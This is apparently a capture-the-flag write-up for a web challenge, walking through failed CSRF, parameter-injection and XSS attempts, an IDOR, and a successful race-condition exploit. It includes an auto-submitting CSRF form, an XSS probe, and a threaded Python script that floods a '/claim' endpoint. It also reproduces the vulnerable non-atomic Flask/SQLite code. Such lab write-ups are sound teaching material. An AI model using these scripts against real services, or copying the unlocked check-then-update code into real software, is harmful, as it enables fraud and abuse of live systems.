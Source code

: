 # Straightforward

**Easy**

Test out our game center. You'll have free claiming bonus for first timers!

*Author: vicevirus ** **Flag format: UMCS{...}**

[http://159.69.219.192:7859/](http://159.69.219.192:7859/)

The challenge required a balance of $3000 to redeem a flag, but each user started with only $1000. The daily bonus system added $1000 more, totaling just $2000—still $1000 short of the goal.

---

The dashboard offered three actions:

- **Collect Daily Bonus**: A `POST` form to `/claim`
- **Redeem Secret Reward ($3000)**: A `POST` form to `/buy_flag`
- **Logout**: A `GET` form to `/logout`

Attempting to buy the flag via `/buy_flag` resulted in a redirect to `/dashboard` with a flash message:

> “Insufficient funds to redeem the reward.”
> 

This confirmed that I needed $3000 in my account, $1000 more than what I could normally accumulate.

---

### CSRF Vulnerability: A Dead End

I noticed the website relied solely on HTTP cookies to identify users, making it vulnerable to **Cross-Site Request Forgery (CSRF)**. Here’s how I explored that path:

![7f2998c0-4319-442b-963d-e91c4c5b7051](https://github.com/user-attachments/assets/524dcb00-9e93-46c7-b248-48a92f2dd2a5)

![image](https://github.com/user-attachments/assets/c40228a1-b845-4209-80d2-fcb3462fcca2)

### **First Attempt: CSRF on `/claim`**

I hypothesized I could trick other users into claiming their daily bonus and somehow redirect the funds to my account.

Example request:

```php
POST /claim HTTP/1.1
Host: 159.69.219.192:7859
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Cookie: session=eyJ1c2VybmFtZSI6InNveXJpYSJ9...
```

The request had no body and relied on the session cookie. I created a malicious HTML page to force other users to unknowingly trigger the request:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://159.69.219.192:7859/claim" method="POST">
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Unfortunately, the bonus was credited to the victim's account not mine as the server used the session cookie to identify the recipient.

### **Second Attempt: Parameter Injection**

I tried modifying the form to include a `username` parameter:

```html
<input type="hidden" name="username" value="attacker">
```

I even tried variations like `user=attacker`, `recipient=attacker`, and `claim_for=attacker`, but all were ignored. The server exclusively trusted `session['username']`. Thus, CSRF alone couldn’t redirect funds.

### XSS Exploration

While exploring, I noticed reflected input in the `username` parameter on `/dashboard`. Example:

```
GET /dashboard?username=soyriavypu57uu4k
```

Returned:

```html
<h2>Hello, soyriavypu57uu4k</h2>
```

I tested for **XSS** with:

```html
/dashboard?username="><script>alert('xss')</script>
```

But input was either encoded or blocked by the browser due to `HttpOnly` cookies. XSS wasn't exploitable here.

---

### Discovering Project Files & Race Conditions

Halfway through, I accessed the project codebase and identified two critical vulnerabilities:

1. **IDOR in `dashboard`**:
    
    ```python
    display_user = request.args.get('username') or session['username']
    ```
    
    This meant appending `?username=target_user` allowed me to view any user's balance. While helpful for recon, it didn’t help me increase *my* balance.
    
2.  **Race Condition in `/claim`**
    
    The real goldmine was a **race condition** caused by poor SQLite handling:
    
    The code used:
    
    ```python
    def get_db():
        if 'db' not in g:
            g.db = sqlite3.connect(DATABASE, check_same_thread=False)
            g.db.row_factory = sqlite3.Row
        return g.db
    
    def claim():
        if 'username' not in session:
            return redirect(url_for('register'))
        username = session['username']
        db = get_db()
        cur = db.execute('SELECT claimed FROM redemptions WHERE username=?', (username,))
        row = cur.fetchone()
        if row and row['claimed']:
            flash("You have already claimed your daily bonus!", "danger")
            return redirect(url_for('dashboard'))
        db.execute('INSERT OR REPLACE INTO redemptions (username, claimed) VALUES (?, 1)', (username,))
        db.execute('UPDATE users SET balance = balance + 1000 WHERE username=?', (username,))
        db.commit()
        flash("Daily bonus collected!", "success")
        return redirect(url_for('dashboard'))
    ```
    
    - **`check_same_thread=False`** for SQLite
    - No locking
    - No transaction wrapping for the check-update process
    
    This allowed concurrent POSTs to **`/claim`** to bypass the daily bonus limit.
    

### Exploiting the Race Condition

I wrote a simple Python script to send multiple concurrent requests:

```python
import requests
import threading

url = "http://159.69.219.192:7859/claim"
cookies = {"session": "eyJ1c2VybmFtZSI6InNmYWRhZGRzYWQifQ.Z_oEBg.Lfs9yLumisWCZMvNsIN8ofeEx08"}

def send_claim():
    response = requests.post(url, cookies=cookies)
    print(response.text)

threads = []
for _ in range(10):  # Send 10 concurrent requests
    t = threading.Thread(target=send_claim)
    threads.append(t)
    t.start()

for t in threads:
    t.join()
```

After execution, I checked `/dashboard` and saw my balance jump to **6000 units** confirming multiple bonuses were granted before the server marked the daily claim as complete.

![image 1](https://github.com/user-attachments/assets/a0c2b878-751d-4739-bef7-401bd10e83b0)

![image 2](https://github.com/user-attachments/assets/c7281081-20ee-4ce4-9700-68a2b084809c)


### Buying the Flag

- With enough funds, I sent:

```php
POST /buy_flag HTTP/1.1
Host: 159.69.219.192:7859
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Origin: http://159.69.219.192:7859
Connection: keep-alive
Referer: http://159.69.219.192:7859/dashboard
Cookie: session=eyJ1c2VybmFtZSI6ImRhc2RhZGF3ZGFzZCJ9.Z_ytuA.PIGnlrnvTZaipYwCne8B3BektPI
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

- The response contained the flag: `UMCS{...}`
    
![image 3](https://github.com/user-attachments/assets/300424ac-d985-41c3-9651-21f2c767b69b)

    
  ## Why CSRF Failed?
    
  - The server correctly tied bonus credit to the authenticated user in the session. Without a server-side flaw, CSRF couldn’t reroute bonuses.
    
### IDOR’s Role
    
  - It only revealed balances and was good for recon but useless for escalation.
    
### Race Condition Insight
    
  - The lack of atomic transactions and poor SQLite handling allowed me to bypass balance restrictions and exploit the logic race.
